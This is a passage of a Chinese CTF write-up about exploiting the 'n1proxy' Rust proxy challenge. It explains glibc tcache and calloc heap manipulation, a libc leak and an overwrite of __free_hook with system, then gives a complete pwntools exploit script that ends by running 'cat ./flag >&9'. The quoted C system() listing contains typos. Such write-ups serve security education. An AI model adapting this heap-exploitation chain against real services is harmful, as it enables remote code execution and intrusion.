要绕过这一点：首先，分配之后这个 chunk 必须再次被释放，并且赋值之后 fd 或 bk 部分必须仍残留 libc 数据，同时 fd 必须指向 unsorted_chunk 的地址。

当我在 malloc 上设置断点时，发现第一次分配使用的是 `_rust_alloc_zeroed`，没有触发断点——可能用了别的函数。在 IDA 中检查后发现它用的是 `calloc`。它和 malloc 的区别在于：一开始它不会从 tcache 中取 chunk，而是直接开始检查该大小是否属于 fastbin（类似于低版本的 malloc，但当 fastbin 有多余的 chunk 时，会把它们链入 tcache）


然后是一次正常的 free
第二次分配使用的是 `__rust_alloc`，对应 malloc

如果第一次分配绕过 tcache 去取 chunk，那么释放时因为 tcache 已满，它会进入 unsorted bin，下一次分配又会再次从 tcache 中找到它；而且后续所有的 chunk 都可以从 tcache 中找到，free 也可以直接进 tcache 或进 unsorted bin——那么问题就解决了。简而言之，经过这次 free 并赋值之后，后续所有的 malloc 都只能来自 tcache；这里我逐一尝试了能把 tcache 填满的那些 bin 对应的 chunk 大小

###  覆盖 free_hook

这里我们仍然要确保 malloc 和 calloc 不会去搜索 unsorted bin（不过看起来通过一些堆风水，下一次也能成功）。同时，因为这里需要写入某个 tcache chunk 的 fd，并把原始内容拷贝到 fd 所指向的那个 chunk 上——从而用 system 覆盖 free_hook——所以它必须是 tcache 上的一个 chunk。第一次分配是 calloc，此时要求该 chunk 处于 fastbin 或 smallbin 中；释放后它进入 tcache；赋值写入 fd；下一次分配从 tcache 中取出；再下一次分配则返回 free_hook-8 这个 chunk；然后拷贝操作用 system 覆盖了 free_hook

```c
  if (tc_idx < mp_.tcache_bins
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
      && tcache
      && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
```
由于这里 tcache 的分配是基于 entries 进行的，只需挑一个后续 malloc 不会用到的大小；否则，如果该大小后续被用到，fd 所指向的 chunk 中残留的 fd 可能会破坏分配。所以我逐一尝试了那些没有对应大小的 tcache bin 的大小。另外，我发现 recvmsg 会把对应 bk 部分的值清零，所以拷贝进新分配 chunk 的内容自然无法覆盖 free_hook；因此我把它改成了 free_hook-0x10+p64(0)+system

```c

#include <sys/types.h>
#include <sys/wait.h>
#include <errno.h>
#include <unistd.h>

int system(const char * cmdstring)

{
    pid_t pid;
    int status;

    if(cmdstring == NULL){
          
         return (1);
    }


    if((pid = fork())<0){

            status = -1;
    }


    else if(pid = 0){

        execl("/bin/sh", "sh", "-c", cmdstring, (char *)0);

        -exit(127); //子进程正常执行则不会执行此语句

        }

    else{

            while(waitpid(pid, &status, 0) < 0){

                if(errno != EINTER){

                    status = -1;

                    break;

                }

            }

        }


        return status;


}

                       
```
system 调用失败会导致派生出的子进程退出。~~用 gdb 调试时一直卡在子进程里退不出来~~ 后来发现卡住是因为原来的断点无法插入，所以才卡住——很离谱。但后来，由于 free 操作很多，任何断点都会导致卡住。所以我把它设置为在 hand_client 中不跟随子进程，但进入 hand_client 又需要先进入子进程，相当麻烦
### 执行命令
覆盖完成之后，下一次我们发送相关命令时，它会被接收并赋值；当它的生命周期结束时会调用 free，从而触发 system(command)。这里需要 cat flag 并把它重定向到服务器的套接字（大概是因为发送之后
会有一次对存放命令的那块堆的 free 操作），并使用 recv_msg 把 flag 内容和刚才发送的内容一起接收回来


### exp

```python
from pwn import *
import rsa
from typing import List
#from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
#from cryptography.hazmat.backends import default_backend
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from typing import Dict, List
import threading
from Crypto.Util.Padding import unpad

context(os="linux",arch="amd64",log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

class SessionKey:
    def __init__(self, key, iv):
        self.key = key
        self.iv = iv
        

    def __str__(self):
        return f"SessionKey(key={self.key}, iv={self.iv})"

    def __repr__(self):
        return str(self)


def session_enc(keys:SessionKey, msg: bytes) -> bytes:
    try:
        key = keys.key
        iv = keys.iv
        
        if len(key) != 32:
            raise ValueError(f"Invalid key length {len(key)}")
        if len(iv) != 16:
            raise ValueError(f"Invalid iv length {len(iv)}")
        
        # Create AES cipher in CBC mode
        cipher = AES.new(key, AES.MODE_CBC, iv)
        
        # Pad the message
        padded_msg = pad(msg, AES.block_size)
        
        # Encrypt the padded message
        encrypted = cipher.encrypt(padded_msg)
        
        return encrypted
    
    except Exception as e:
        raise Exception(f"Failed to encrypt message: {str(e)}")

def session_dec(keys: SessionKey, msg: bytes) -> bytes:
    key = keys.key
    iv = keys.iv
        
    if len(key) != 32:
        raise ValueError(f"Invalid key length {len(key)}")
    if len(iv) != 16:
        raise ValueError(f"Invalid iv length {len(iv)}")
    
    # Create AES cipher object for decryption
    cipher = AES.new(keys.key, AES.MODE_CBC, keys.iv)
    
    try:
        # Decrypt the message and remove padding
        decrypted = cipher.decrypt(msg)
        unpadded = unpad(decrypted, AES.block_size)
    except ValueError as err:
        raise ValueError(f"Failed to decrypt message: {err}") from err

    return unpadded
def listen():
    global client_fd,server_fd
    r=remote("127.0.0.1",8080)
    # shandhake
    r.sendafter(b"n1proxy server v0.1",b"n1proxy client v0.1") 
    # conntype
    r.send(b"\x00")

    # recv server key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_e.len() 8|pub_key_n 8|pub_key_e 8,
    key_exchange_sign_len=r.recv(8)
    key_exchange_sign=r.recv(512)
    pub_key_n_len=r.recv(8)
    pub_key_e_len=r.recv(8)
    pub_key_n=r.recv(512)
    pub_key_e=r.recv(4)

    server_pub_key = rsa.PublicKey(int.from_bytes(pub_key_n, byteorder='big'),
                        int.from_bytes(pub_key_e, byteorder='big'))
    if rsa.verify(pub_key_n_len+pub_key_e_len+pub_key_n+pub_key_e, key_exchange_sign, server_pub_key):
        print("server public key get Signature verified")

    # send client  key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_n 8|pub_key_e.len() 8|pub_key_e 8

    global  pub_key, pri_key
    pub_key_n = pub_key.n.to_bytes(512, byteorder='big')
    pub_key_e = pub_key.e.to_bytes(8, byteorder='big')
    key_exchange = b''.join([
        len(pub_key_n).to_bytes(8, byteorder='little'),
        pub_key_n,
        len(pub_key_e).to_bytes(8, byteorder='little'),
        pub_key_e
    ])
    key_exchange_sign = rsa.sign(key_exchange, pri_key, 'SHA-256')
    key_exchange_sign_len = len(key_exchange_sign)
    key_exchange_sign_msg = b''.join([
        key_exchange_sign_len.to_bytes(8, byteorder='little'),
        key_exchange_sign
    ])
    r.send(key_exchange_sign_msg)
    r.send(key_exchange)

    # get session key  new_session_sign.len 8| new_session_sign 512 |  enc_key.len() 8| enc_key 512 |enc_time.len() 8| enc_time 512
    new_session_sign_len=r.recv(8)
    new_session_sign=r.recv(512)
    enc_key_len=r.recv(8)
    enc_key=r.recv(512)
    enc_time_len=r.recv(8)
    enc_time=r.recv(512)
    if rsa.verify(enc_key_len+enc_key+enc_time_len+enc_time, new_session_sign, server_pub_key):
        print("server session key Signature verified")

    session_key_array = rsa.decrypt(enc_key, pri_key)
    session_key=SessionKey(
            session_key_array[:32],
            session_key_array[32:48]
        )
    timestamp = int.from_bytes(rsa.decrypt(enc_time, pri_key), byteorder='little')
    print("server session key",session_key)


    # ProxyType ProxyStatus   session_enc(conn_type 4 | status 4 | signature(conn_type 4 | status 4))
    ProxyStatus=4
    ProxyType=2
    prec_con=p32(ProxyType)+p32(ProxyStatus)
    prec_con_sign = rsa.sign(prec_con, pri_key, 'SHA-256')
    pre_conn_session_enc=session_enc(session_key,prec_con+prec_con_sign)
    r.send(pre_conn_session_enc)

 #  ok_msg session_enc(  ok_msg|  ok_msg_sign.len |  ok_msg_sign )
    ok_msg_enc=r.recv(528)
    ok_msg_total=session_dec(session_key,ok_msg_enc)
    if rsa.verify(ok_msg_total[:4], ok_msg_total[12:], server_pub_key):
        print("server ok_msg key Signature verified")

    #  about ProxyStatus operation 
    target_host=b"127.0.0.1"
    target_host_len=p32(9)
    target_port=p16(12345)
    conn_data_sign=rsa.sign(target_host_len+target_host+target_port, pri_key, 'SHA-256')
    conn_data_session_enc=session_enc(session_key,target_host_len+target_host+target_port+conn_data_sign)
    r.send(conn_data_session_enc)
   
    #  session_enc(socke_fd | signature)
    fd_session_enc=r.recv(528)
    fd_total=session_dec(session_key,fd_session_enc)
    if rsa.verify(fd_total[:4], fd_total[4:], server_pub_key):
        print("server client fd  key Signature verified")
    #p.interactive() # else process("./pwn") end
    client_fd=fd_total[:4]
    print("client fd ",client_fd)

def connec():
    global client_fd,server_fd
    r=remote("127.0.0.1",8080)
    # shandhake
    r.sendafter(b"n1proxy server v0.1",b"n1proxy client v0.1") 
    # conntype
    r.send(b"\x00")

    # recv server key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_e.len() 8|pub_key_n 8|pub_key_e 8,
    key_exchange_sign_len=r.recv(8)
    key_exchange_sign=r.recv(512)
    pub_key_n_len=r.recv(8)
    pub_key_e_len=r.recv(8)
    pub_key_n=r.recv(512)
    pub_key_e=r.recv(4)

    server_pub_key = rsa.PublicKey(int.from_bytes(pub_key_n, byteorder='big'),
                        int.from_bytes(pub_key_e, byteorder='big'))
    if rsa.verify(pub_key_n_len+pub_key_e_len+pub_key_n+pub_key_e, key_exchange_sign, server_pub_key):
        print("server public key get Signature verified")

    # send client  key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_n 8|pub_key_e.len() 8|pub_key_e 8

    global  pub_key, pri_key
    pub_key_n = pub_key.n.to_bytes(512, byteorder='big')
    pub_key_e = pub_key.e.to_bytes(8, byteorder='big')
    key_exchange = b''.join([
        len(pub_key_n).to_bytes(8, byteorder='little'),
        pub_key_n,
        len(pub_key_e).to_bytes(8, byteorder='little'),
        pub_key_e
    ])
    key_exchange_sign = rsa.sign(key_exchange, pri_key, 'SHA-256')
    key_exchange_sign_len = len(key_exchange_sign)
    key_exchange_sign_msg = b''.join([
        key_exchange_sign_len.to_bytes(8, byteorder='little'),
        key_exchange_sign
    ])
    r.send(key_exchange_sign_msg)
    r.send(key_exchange)

    # get session key  new_session_sign.len 8| new_session_sign 512 |  enc_key.len() 8| enc_key 512 |enc_time.len() 8| enc_time 512
    new_session_sign_len=r.recv(8)
    new_session_sign=r.recv(512)
    enc_key_len=r.recv(8)
    enc_key=r.recv(512)
    enc_time_len=r.recv(8)
    enc_time=r.recv(512)
    if rsa.verify(enc_key_len+enc_key+enc_time_len+enc_time, new_session_sign, server_pub_key):
        print("server session key Signature verified")

    session_key_array = rsa.decrypt(enc_key, pri_key)
    session_key=SessionKey(
            session_key_array[:32],
            session_key_array[32:48]
        )
    timestamp = int.from_bytes(rsa.decrypt(enc_time, pri_key), byteorder='little')
    print("server session key",session_key)


    # ProxyType ProxyStatus   session_enc(conn_type 4 | status 4 | signature(conn_type 4 | status 4))
    ProxyStatus=2
    ProxyType=2
    prec_con=p32(ProxyType)+p32(ProxyStatus)
    prec_con_sign = rsa.sign(prec_con, pri_key, 'SHA-256')
    pre_conn_session_enc=session_enc(session_key,prec_con+prec_con_sign)
    r.send(pre_conn_session_enc)
    #  ok_msg session_enc(  ok_msg|  ok_msg_sign.len |  ok_msg_sign )
    ok_msg_enc=r.recv(528)
    ok_msg_total=session_dec(session_key,ok_msg_enc)
    if rsa.verify(ok_msg_total[:4], ok_msg_total[12:], server_pub_key):
        print("server ok_msg key Signature verified")

    #  about ProxyStatus operation 
    # 
    target_host=b"127.0.0.1"
    target_host_len=p32(9)
    target_port=p16(12345)
    conn_data_sign=rsa.sign(target_host_len+target_host+target_port, pri_key, 'SHA-256')
    conn_data_session_enc=session_enc(session_key,target_host_len+target_host+target_port+conn_data_sign)
    r.send(conn_data_session_enc)

     #  session_enc(socke_fd | signature)
    fd_session_enc=r.recv(528)
    fd_total=session_dec(session_key,fd_session_enc)
    if rsa.verify(fd_total[:4], fd_total[4:], server_pub_key):
        print("server client fd  key Signature verified")
    #p.interactive() # else process("./pwn") end
    server_fd=fd_total[:4]
    print("server fd ",server_fd)
    #p.interactive() # else process("./pwn") end

def send(fd,size ,data):
    r=remote("127.0.0.1",8080)
    # shandhake
    r.sendafter(b"n1proxy server v0.1",b"n1proxy client v0.1") 
    # conntype
    r.send(b"\x00")

    # recv server key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_e.len() 8|pub_key_n 8|pub_key_e 8,
    key_exchange_sign_len=r.recv(8)
    key_exchange_sign=r.recv(512)
    pub_key_n_len=r.recv(8)
    pub_key_e_len=r.recv(8)
    pub_key_n=r.recv(512)
    pub_key_e=r.recv(4)

    server_pub_key = rsa.PublicKey(int.from_bytes(pub_key_n, byteorder='big'),
                        int.from_bytes(pub_key_e, byteorder='big'))
    if rsa.verify(pub_key_n_len+pub_key_e_len+pub_key_n+pub_key_e, key_exchange_sign, server_pub_key):
        print("server public key get Signature verified")

    # send client  key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_n 8|pub_key_e.len() 8|pub_key_e 8

    global  pub_key, pri_key
    pub_key_n = pub_key.n.to_bytes(512, byteorder='big')
    pub_key_e = pub_key.e.to_bytes(8, byteorder='big')
    key_exchange = b''.join([
        len(pub_key_n).to_bytes(8, byteorder='little'),
        pub_key_n,
        len(pub_key_e).to_bytes(8, byteorder='little'),
        pub_key_e
    ])
    key_exchange_sign = rsa.sign(key_exchange, pri_key, 'SHA-256')
    key_exchange_sign_len = len(key_exchange_sign)
    key_exchange_sign_msg = b''.join([
        key_exchange_sign_len.to_bytes(8, byteorder='little'),
        key_exchange_sign
    ])
    r.send(key_exchange_sign_msg)
    r.send(key_exchange)

    # get session key  new_session_sign.len 8| new_session_sign 512 |  enc_key.len() 8| enc_key 512 |enc_time.len() 8| enc_time 512
    new_session_sign_len=r.recv(8)
    new_session_sign=r.recv(512)
    enc_key_len=r.recv(8)
    enc_key=r.recv(512)
    enc_time_len=r.recv(8)
    enc_time=r.recv(512)
    if rsa.verify(enc_key_len+enc_key+enc_time_len+enc_time, new_session_sign, server_pub_key):
        print("server session key Signature verified")

    session_key_array = rsa.decrypt(enc_key, pri_key)
    session_key=SessionKey(
            session_key_array[:32],
            session_key_array[32:48]
        )
    timestamp = int.from_bytes(rsa.decrypt(enc_time, pri_key), byteorder='little')
    print("server session key",session_key)


    # ProxyType ProxyStatus   session_enc(conn_type 4 | status 4 | signature(conn_type 4 | status 4))
    ProxyStatus=0
    ProxyType=2
    prec_con=p32(ProxyType)+p32(ProxyStatus)
    prec_con_sign = rsa.sign(prec_con, pri_key, 'SHA-256')
    pre_conn_session_enc=session_enc(session_key,prec_con+prec_con_sign)
    r.send(pre_conn_session_enc)
    
    #  ok_msg session_enc(  ok_msg|  ok_msg_sign.len |  ok_msg_sign )
    ok_msg_enc=r.recv(528)
    ok_msg_total=session_dec(session_key,ok_msg_enc)
    if rsa.verify(ok_msg_total[:4], ok_msg_total[12:], server_pub_key):
        print("server ok_msg key Signature verified")

    #  about ProxyStatus operation 
    # 
    conn_data=p32(fd)+p64(size)+data
    conn_data_sign=rsa.sign(conn_data, pri_key, 'SHA-256')
    conn_data_session_enc=session_enc(session_key,conn_data+conn_data_sign)
    r.send(conn_data_session_enc)
    r.close()
    #p.interactive() # else process("./pwn") end


def recv(fd,size):
    r=remote("127.0.0.1",8080)
    # shandhake
    r.sendafter(b"n1proxy server v0.1",b"n1proxy client v0.1") 
    # conntype
    r.send(b"\x00")

    # recv server key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_e.len() 8|pub_key_n 8|pub_key_e 8,
    key_exchange_sign_len=r.recv(8)
    key_exchange_sign=r.recv(512)
    pub_key_n_len=r.recv(8)
    pub_key_e_len=r.recv(8)
    pub_key_n=r.recv(512)
    pub_key_e=r.recv(4)

    server_pub_key = rsa.PublicKey(int.from_bytes(pub_key_n, byteorder='big'),
                        int.from_bytes(pub_key_e, byteorder='big'))
    if rsa.verify(pub_key_n_len+pub_key_e_len+pub_key_n+pub_key_e, key_exchange_sign, server_pub_key):
        print("server public key get Signature verified")

    # send client  key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_n 8|pub_key_e.len() 8|pub_key_e 8

    global  pub_key, pri_key
    pub_key_n = pub_key.n.to_bytes(512, byteorder='big')
    pub_key_e = pub_key.e.to_bytes(8, byteorder='big')
    key_exchange = b''.join([
        len(pub_key_n).to_bytes(8, byteorder='little'),
        pub_key_n,
        len(pub_key_e).to_bytes(8, byteorder='little'),
        pub_key_e
    ])
    key_exchange_sign = rsa.sign(key_exchange, pri_key, 'SHA-256')
    key_exchange_sign_len = len(key_exchange_sign)
    key_exchange_sign_msg = b''.join([
        key_exchange_sign_len.to_bytes(8, byteorder='little'),
        key_exchange_sign
    ])
    r.send(key_exchange_sign_msg)
    r.send(key_exchange)

    # get session key  new_session_sign.len 8| new_session_sign 512 |  enc_key.len() 8| enc_key 512 |enc_time.len() 8| enc_time 512
    new_session_sign_len=r.recv(8)
    new_session_sign=r.recv(512)
    enc_key_len=r.recv(8)
    enc_key=r.recv(512)
    enc_time_len=r.recv(8)
    enc_time=r.recv(512)
    if rsa.verify(enc_key_len+enc_key+enc_time_len+enc_time, new_session_sign, server_pub_key):
        print("server session key Signature verified")

    session_key_array = rsa.decrypt(enc_key, pri_key)
    session_key=SessionKey(
            session_key_array[:32],
            session_key_array[32:48]
        )
    timestamp = int.from_bytes(rsa.decrypt(enc_time, pri_key), byteorder='little')
    print("server session key",session_key)


    # ProxyType ProxyStatus   session_enc(conn_type 4 | status 4 | signature(conn_type 4 | status 4))
    ProxyStatus=1
    ProxyType=2
    prec_con=p32(ProxyType)+p32(ProxyStatus)
    prec_con_sign = rsa.sign(prec_con, pri_key, 'SHA-256')
    pre_conn_session_enc=session_enc(session_key,prec_con+prec_con_sign)
    r.send(pre_conn_session_enc)

    #  ok_msg session_enc(  ok_msg|  ok_msg_sign.len |  ok_msg_sign )
    ok_msg_enc=r.recv(528)
    ok_msg_total=session_dec(session_key,ok_msg_enc)
    if rsa.verify(ok_msg_total[:4], ok_msg_total[12:], server_pub_key):
        print("server ok_msg key Signature verified")


    #  about ProxyStatus operation 
   
    conn_data=p32(fd)+p64(size)
    conn_data_sign=rsa.sign(conn_data, pri_key, 'SHA-256')
    conn_data_session_enc=session_enc(session_key,conn_data+conn_data_sign)
    r.send(conn_data_session_enc)
     #   session_enc( recv_data.len() |  recv_data | sign(recv_data.len() |  recv_data)  )
 
    recv_enc_data = r.recv()
    recv_data = session_dec(session_key,recv_enc_data)
    data_len = u64(recv_data[:8])
    data = recv_data[8:8+data_len]
    sig = recv_data[8+data_len:]
    if rsa.verify(recv_data[:8+data_len],sig,server_pub_key):
        print("recvdata key Signature verified")
    return data
    #p.interactive() # else process("./pwn") end
def recv_no(fd,size):
    r=remote("127.0.0.1",8080)
    # shandhake
    r.sendafter(b"n1proxy server v0.1",b"n1proxy client v0.1") 
    # conntype
    r.send(b"\x00")

    # recv server key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_e.len() 8|pub_key_n 8|pub_key_e 8,
    key_exchange_sign_len=r.recv(8)
    key_exchange_sign=r.recv(512)
    pub_key_n_len=r.recv(8)
    pub_key_e_len=r.recv(8)
    pub_key_n=r.recv(512)
    pub_key_e=r.recv(4)

    server_pub_key = rsa.PublicKey(int.from_bytes(pub_key_n, byteorder='big'),
                        int.from_bytes(pub_key_e, byteorder='big'))
    if rsa.verify(pub_key_n_len+pub_key_e_len+pub_key_n+pub_key_e, key_exchange_sign, server_pub_key):
        print("server public key get Signature verified")

    # send client  key_exchange_sign.len()8| key_exchange_sign 512|pub_key_n.len() 8|pub_key_n 8|pub_key_e.len() 8|pub_key_e 8

    global  pub_key, pri_key
    pub_key_n = pub_key.n.to_bytes(512, byteorder='big')
    pub_key_e = pub_key.e.to_bytes(8, byteorder='big')
    key_exchange = b''.join([
        len(pub_key_n).to_bytes(8, byteorder='little'),
        pub_key_n,
        len(pub_key_e).to_bytes(8, byteorder='little'),
        pub_key_e
    ])
    key_exchange_sign = rsa.sign(key_exchange, pri_key, 'SHA-256')
    key_exchange_sign_len = len(key_exchange_sign)
    key_exchange_sign_msg = b''.join([
        key_exchange_sign_len.to_bytes(8, byteorder='little'),
        key_exchange_sign
    ])
    r.send(key_exchange_sign_msg)
    r.send(key_exchange)

    # get session key  new_session_sign.len 8| new_session_sign 512 |  enc_key.len() 8| enc_key 512 |enc_time.len() 8| enc_time 512
    new_session_sign_len=r.recv(8)
    new_session_sign=r.recv(512)
    enc_key_len=r.recv(8)
    enc_key=r.recv(512)
    enc_time_len=r.recv(8)
    enc_time=r.recv(512)
    if rsa.verify(enc_key_len+enc_key+enc_time_len+enc_time, new_session_sign, server_pub_key):
        print("server session key Signature verified")

    session_key_array = rsa.decrypt(enc_key, pri_key)
    session_key=SessionKey(
            session_key_array[:32],
            session_key_array[32:48]
        )
    timestamp = int.from_bytes(rsa.decrypt(enc_time, pri_key), byteorder='little')
    print("server session key",session_key)


    # ProxyType ProxyStatus   session_enc(conn_type 4 | status 4 | signature(conn_type 4 | status 4))
    ProxyStatus=1
    ProxyType=2
    prec_con=p32(ProxyType)+p32(ProxyStatus)
    prec_con_sign = rsa.sign(prec_con, pri_key, 'SHA-256')
    pre_conn_session_enc=session_enc(session_key,prec_con+prec_con_sign)
    r.send(pre_conn_session_enc)

    #  ok_msg session_enc(  ok_msg|  ok_msg_sign.len |  ok_msg_sign )
    ok_msg_enc=r.recv(528)
    ok_msg_total=session_dec(session_key,ok_msg_enc)
    if rsa.verify(ok_msg_total[:4], ok_msg_total[12:], server_pub_key):
        print("server ok_msg key Signature verified")


    #  about ProxyStatus operation 
   
    conn_data=p32(fd)+p64(size)
    conn_data_sign=rsa.sign(conn_data, pri_key, 'SHA-256')
    conn_data_session_enc=session_enc(session_key,conn_data+conn_data_sign)
    r.send(conn_data_session_enc)
     #   session_enc( recv_data.len() |  recv_data | sign(recv_data.len() |  recv_data)  )
  
    recv_enc_data = r.recv(timeout=10)
    #p.interactive() # else process("./pwn") end


global client_fd,server_fd

global  pub_key, pri_key
(pub_key, pri_key) = rsa.newkeys(4096)   
#p=process("./n1proxy_server")
# gdb.attach(p)
# pause()
thread = threading.Thread(target=listen)
thread.start()

connec()
# leak libc

send(u32(server_fd),1 ,b"1")
recv_data=recv(u32(client_fd),0x200)

print("recv_data",recv_data)
libcbase=u64(recv_data[:8])-0x3ebc31
print("libc",hex(libcbase))
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

# # overlap _free_hook
send(u32(server_fd),24,p64(libcbase+libc.sym["__free_hook"]-0x10)+p64(0)+p64(libcbase+libc.sym["system"]))
recv_data=recv_no(u32(client_fd),0x50) 
print("recv_data",recv_data)
# # system ("cat flag")
send(u32(server_fd),15,b"cat ./flag >&9\x00")
recv_data=recv(u32(client_fd),0x50) 
print("recv_data",recv_data)
```
这些 `sh:` 行是因为我把 proxy 放在后台运行，所以它的输出直接打到了终端上

由于这里生成公钥相当麻烦，我没有尝试太多其他可能的大小

